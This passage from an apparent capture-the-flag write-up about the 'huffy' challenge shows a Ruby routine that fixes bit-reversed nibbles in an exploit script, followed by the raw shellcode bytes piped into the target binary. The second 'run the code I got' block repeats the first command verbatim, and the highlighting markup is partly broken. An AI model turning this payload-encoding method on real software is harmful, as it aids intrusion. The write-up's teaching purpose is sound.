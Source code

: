 If I was paying more attention, I would have noticed the obvious problem: <strong>they're backwards</strong>!!!

In my rush to get the level done, I didn't notice that every nibble's bits were exactly backwards (1000 instead of 0001, 0100 instead of 0010, etc etc)

While I didn't notice the problem, I did notice that everything was consistently wrong. So I did this:

<pre id='vimCodeElement'>
hack_table = {
  0x02 =<span class="Error">&gt;</span> 0x08, 0x0d =<span class="Error">&gt;</span> 0x09, 0x00 =<span class="Error">&gt;</span> 0x00, 0x08 =<span class="Error">&gt;</span> 0x02,
  0x0f =<span class="Error">&gt;</span> 0x01, 0x07 =<span class="Error">&gt;</span> 0x03, 0x03 =<span class="Error">&gt;</span> 0x07, 0x0c =<span class="Error">&gt;</span> 0x06,
  0x04 =<span class="Error">&gt;</span> 0x04, 0x0b =<span class="Error">&gt;</span> 0x05, 0x01 =<span class="Error">&gt;</span> 0x0f, 0x0e =<span class="Error">&gt;</span> 0x0e,
  0x06 =<span class="Error">&gt;</span> 0x0c, 0x09 =<span class="Error">&gt;</span> 0x0d, 0x05 =<span class="Error">&gt;</span> 0x0b, 0x0a =<span class="Error">&gt;</span> 0x0a
}

hack_out = &quot;&quot;

out.bytes.each do |b|
  n1 = hack_table[b <span class="Error">&gt;&gt;</span> 4]
  n2 = hack_table[b <span class="Error">&amp;</span> 0x0f]

  hack_out += ((n1 <span class="htmlTag">&lt;</span><span class="Error">&lt;</span><span class="htmlTag"> 4) | (n2 &amp; 0x000f)).chr</span>
<span class="htmlTag">end</span>
<span class="htmlTag">output(hack_out)</span>
</pre>

And ran it with the original test shellcode:

<pre>
$ ruby ./sploit.rb
echo -ne '\x41\x4c\x42\x42\x4a\x70\xbb\x4a\xb7\x42\x43\x72\x70\xb3\x41\x4e\xb8\x70\x4e\xb8\x70\x4d\xbe\x70\xb8\x41\x4c\x42\x42\x48\x4a\x43\x4c\x7f\x00\x00\x00\x00\x00\x00\x00\x0f\xff\xff\xff\xff\xff\xff\xff\xff\xff\x77\x77\x77\x77\x77\x77\x88\x88\x88\x88\x88\x88\x88\x88\x33\x33\x33\x33\x33\x33\x33\x33\x3c\xcc\xcc\xcc\xcc\xcc\xcc\xcc\xcc\xbb\xbb\xbb\xbb\xbb\xbb\x11\x11\x11\x11\x11\x11\x11\x11\x1e\xee\xee\xee\xee\xee\xee\xee\xee\x66\x66\x66\x66\x66\x66\x66\x66\x66\x66\x99\x99\x99\x99\x99\x99\x99\x99\x99\x99\x22\x22\x22\x22\x22\x22\x22\xdd\xdd\xdd\xdd\xdd\xdd\xdd\xdd\xdd\xd5\x55\x55\x55\x55\x55\x55\x55\x55\x55\x5a\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa' &gt; in; ./huffy &lt; in
</pre>

Then run the code I got:

<pre>
$ echo -ne '\x41\x4c\x42\x42\x4a\x70\xbb\x4a\xb7\x42\x43\x72\x70\xb3\x41\x4e\xb8\x70\x4e\xb8\x70\x4d\xbe\x70\xb8\x41\x4c\x42\x42\x48\x4a\x43\x4c\x7f\x00\x00\x00\x00\x00\x00\x00\x0f\xff\xff\xff\xff\xff\xff\xff\xff\xff\x77\x77\x77\x77\x77\x77\x88\x88\x88\x88\x88\x88\x88\x88\x33\x33\x33\x33\x33\x33\x33\x33\x3c\xcc\xcc\xcc\xcc\xcc\xcc\xcc\xcc\xbb\xbb\xbb\xbb\xbb\xbb\x11\x11\x11\x11\x11\x11\x11\x11\x1e\xee\xee\xee\xee\xee\xee\xee\xee\x66\x66\x66\x66\x66\x66\x66\x66\x66\x66\x99\x99\x99\x99\x99\x99\x99\x99\x99\x99\x22\x22\x22\x22\x22\x22\x22\xdd\xdd\xdd\xdd\xdd\xdd\xdd\xdd\xdd\xd5\x55\x55\x55\x55\x55\x55\x55\x55\x55\x5a\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa' &gt; in; ./huffy &lt; in
</pre>
